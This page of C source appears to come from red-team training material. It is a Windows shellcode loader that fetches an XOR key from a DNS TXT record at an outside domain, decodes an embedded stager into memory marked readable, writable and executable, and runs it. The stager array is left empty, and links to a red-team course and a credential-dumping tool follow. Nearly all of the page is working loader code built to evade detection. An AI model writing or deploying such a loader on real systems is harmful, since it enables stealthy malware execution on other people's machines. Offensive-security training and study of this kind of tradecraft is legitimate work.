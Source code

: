 ```
#include <windows.h>
#include <windns.h>

unsigned char stager[] = { };

DWORD getKey(void) {
	PDNS_RECORD txtData;
	DNS_STATUS status;

	
	status = DnsQuery_A("ironbank.training", DNS_TYPE_TEXT, DNS_QUERY_STANDARD, NULL, &txtData, NULL);
	if (status != 0) {
		return 0;
	}

	
	return *(DWORD*)(*txtData->Data.Txt.pStringArray);
}

void decode(DWORD key, const char *input, char *output, DWORD len) {
	int i = 0;

	for (i = 0; i < len; i+=4) {
		*(DWORD*)(output+i) = *(DWORD *)(input+i) ^ key;
		key++;
	}
}

int main()
{
	DWORD oldProtect;
	void* decryptedStager;

	decryptedStager = VirtualAlloc(NULL, sizeof(stager), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	//VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
	//int (*shellcode)() = (int(*)())(void*)stager;
	decode(getKey(), stager, (char*)decryptedStager, sizeof(stager));
	int (*shellcode)() = (int(*)())(void*)decryptedStager;
	shellcode();
}
```





* [DnsQuery_W function]: <https://docs.microsoft.com/en-us/windows/win32/api/windns/nf-windns-dnsquery_w/> "Optional title"
* [Rastamouse ] (https://www.zeropointsecurity.co.uk/red-team-ops)
* [dirkjanm ] (https://github.com/fox-it/adconnectdump)
